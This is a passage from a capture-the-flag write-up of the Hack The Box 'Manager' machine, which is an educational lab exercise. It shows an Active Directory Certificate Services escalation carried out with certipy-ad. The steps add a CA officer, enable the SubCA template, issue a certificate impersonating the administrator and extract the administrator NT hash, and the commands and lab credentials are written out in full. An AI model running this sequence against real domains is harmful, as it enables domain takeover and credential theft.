                                      MANAGER\Domain Controllers    S-1-5-21-4078382237-1492182817-2568127209-516
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
                                      MANAGER\Enterprise Read-only Domain ControllersS-1-5-21-4078382237-1492182817-2568127209-498
                                      NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERSS-1-5-9
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : KerberosAuthentication
    Schema Version                        : 2
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_DOMAIN_DNS, SUBJECT_ALT_REQUIRE_DNS
    mspki-enrollment-flag                 : AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, KDC Authentication, Server Authentication, Smart Card Logon
    mspki-certificate-application-policy  : Client Authentication, KDC Authentication, Server Authentication, Smart Card Logon
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Controllers    S-1-5-21-4078382237-1492182817-2568127209-516
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
                                      MANAGER\Enterprise Read-only Domain ControllersS-1-5-21-4078382237-1492182817-2568127209-498
                                      NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERSS-1-5-9
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519


Certify completed in 00:00:07.7236500
```

Looking at this raven has allowed to Manage CA, which means its running ACDS.

I used `certipy-ad` which is a tool for Active Directory Certificate Services enumeration and abuse.

Firstly, I created an Officer Account.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```

Next, I enabled a specific certificate template and requested a certificate with elevated privileges.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'
```
```
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy-ad req -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn 'administrator@manager.htb'
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 40
Would you like to save the private key? (y/N) y
[*] Saved private key to 40.key
[-] Failed to request certificate
```

Issuing the certificate

```
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy-ad ca -ca 'manager-DC01-CA' -issue-request 40 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy-ad req -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -retrieve 40
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 40
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '40.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy-ad auth -pfx administrator.pfx -username administrator -domain manager.htb -dc-ip 10.10.11.236
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

After finding the hash, we can login to the machine using `evil-winrm` once again.

<figure></figure>

With This, The Machine has been finally rooted.

Thank you! Happy Hacking :D